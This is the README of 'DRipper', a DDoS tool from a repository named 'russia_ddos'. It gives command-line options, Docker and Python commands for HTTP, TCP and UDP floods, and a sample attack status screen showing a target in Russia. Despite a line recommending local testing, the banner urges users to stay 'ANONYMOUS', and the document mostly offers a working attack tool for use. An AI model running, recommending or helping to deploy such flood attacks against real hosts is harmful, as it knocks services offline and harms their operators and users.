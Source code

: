 # DRipper

[![Build status][actions build badge]][actions build link]
![Docker Pulls](https://img.shields.io/docker/pulls/alexmon1989/dripper)
![Docker Image Version (latest semver)](https://img.shields.io/docker/v/alexmon1989/dripper?label=DockerHub)

DESCRIPTION
-----------

This is reworked version of [DRipper](https://gist.github.com/scamp/33807688d0ebdcfbd4c29a4b992a8b54).
This script support HTTP/TCP/UDP flood attack. We recommend using this script for your own test purposes in the local (on-premise) environment to improve your own web services against DDoS attacks.

## Prerequisites

- Python 3.9 or better
- Docker (optional) if you'd like to run script with docker

## How it looks

```bash
                                                                                
              ██████╗ ██████═╗██╗██████╗ ██████╗ ███████╗██████═╗               
              ██╔══██╗██╔══██║██║██╔══██╗██╔══██╗██╔════╝██╔══██║               
              ██║  ██║██████╔╝██║██████╔╝██████╔╝█████╗  ██████╔╝               
              ██║  ██║██╔══██╗██║██╔═══╝ ██╔═══╝ ██╔══╝  ██╔══██╗               
              ██████╔╝██║  ██║██║██║     ██║     ███████╗██║  ██║               
              ╚═════╝ ╚═╝  ╚═╝╚═╝╚═╝     ╚═╝     ╚══════╝╚═╝  ╚═╝               
                                                          v2.0.0                
                                                                                
        It is the end user's responsibility to obey all applicable laws.        
        It is just like a server testing script and Your IP is visible.         
                                                                                
                      Please, make sure you are ANONYMOUS!                      
                                                                                
 ────────────────────────────────────────────────────────────────────────────── 
  Description                       Status                                      
 ────────────────────────────────────────────────────────────────────────────── 
  Start Time                        2022-02-24 04:00:00                         
  Your Public IP / Country          131.*.*.* / AR                              
  Host IP / Country                 192.168.0.1:80 / RU                        
  Load Method                       UDP                                         
 ────────────────────────────────────────────────────────────────────────────── 
  Threads                           50                                          
  vCPU Count                        16                                          
  Random Packet Length              True / Max length: 2048                     
 ────────────────────────────────────────────────────────────────────────────── 
  CloudFlare DNS Protection         Not protected                               
  Last Availability Check           04:10:52                                    
  Host Availability                 Accessible in 21 of 21 zones (100%)         
 ────────────────────────────────────────────────────────────────────────────── 
  UDP Statistic                                                                 
 ────────────────────────────────────────────────────────────────────────────── 
  Duration                          0:12:11                                     
  Sent Packets                      10,332,191                                     
  Sent Bytes                        2.22 GB                                   
  Connection Success                2                                           
  Connection Failed                 29                                          
  Connection Success Rate           6%                                          
 ────────────────────────────────────────────────────────────────────────────── 
                       Press CTRL+C to interrupt process.                       
                                      ...                                       
```

## Usage

DRipper can run on Windows/Linux/macOS from command line.
We recommend to use `PowerShell` for Windows users to run the script, Linux/macOS users can use any shell.

```bash

██████╗ ██████═╗██╗██████╗ ██████╗ ███████╗██████═╗
██╔══██╗██╔══██║██║██╔══██╗██╔══██╗██╔════╝██╔══██║
██║  ██║██████╔╝██║██████╔╝██████╔╝█████╗  ██████╔╝
██║  ██║██╔══██╗██║██╔═══╝ ██╔═══╝ ██╔══╝  ██╔══██╗
██████╔╝██║  ██║██║██║     ██║     ███████╗██║  ██║
╚═════╝ ╚═╝  ╚═╝╚═╝╚═╝     ╚═╝     ╚══════╝╚═╝  ╚═╝
                                           v2.0.0

It is the end user's responsibility to obey all applicable laws.
It is just like a server testing script and Your IP is visible.

Please, make sure you are ANONYMOUS!

Usage: python DRipper.py [options] arg

Options:
  -h, --help            show this help message and exit
  -p PORT, --port=PORT  port (default: 80)
  -t THREADS, --threads=THREADS
                        threads (default: 100)
  -r RANDOM_PACKET_LEN, --random_len=RANDOM_PACKET_LEN
                        Send random packets with random length (default: 1
  -l MAX_RANDOM_PACKET_LEN, --max_random_packet_len=MAX_RANDOM_PACKET_LEN
                        Max random packets length (default: 48)
  -m ATTACK_METHOD, --method=ATTACK_METHOD
                        Attack method: udp (default), tcp, http
  -s HOST, --server=HOST
                        Attack to server IP

Example: python DRipper.py -s 192.168.0.1 -p 80 -t 100
```

## How to Run

#### Using Docker

```bash
# HTTP flood
docker run -it --rm alexmon1989/dripper:latest -s 127.0.0.1 -p 80 -t 100 -m http

# TCP flood
docker run -it --rm alexmon1989/dripper:latest -s 127.0.0.1 -p 80 -t 100 -m tcp -l 2048

# UDP flood
docker run -it --rm alexmon1989/dripper:latest -s 127.0.0.1 -p 80 -t 100 -m upd -l 2048
```

#### Directly with Python.

Ensure you have Python 3 installed. Then clone this repo and run DRipper.py with params you need

```bash
git clone https://github.com/alexmon1989/russia_ddos.git
cd russia_ddos

# Install python dependencies:
pip install -r requirements.txt

# Run script
python -u DRipper.py -s 127.0.0.1 -p 80 -t 100 -r 1 -m udp
# OR
python3 -u DRipper.py -s 127.0.0.1 -p 80 -t 100 -r 1 -m udp
```

## How to run unit tests

#### Prepare
```bash
pip install pytest
```

#### Run
```bash
pytest
```

# License

This project is distributed under the MIT License, see [LICENSE](./LICENSE) for more information.

<!-- External links -->
[actions build badge]: https://github.com/alexmon1989/russia_ddos/actions/workflows/build.yml/badge.svg
[actions build link]:  https://github.com/alexmon1989/russia_ddos/actions/workflows/build.yml
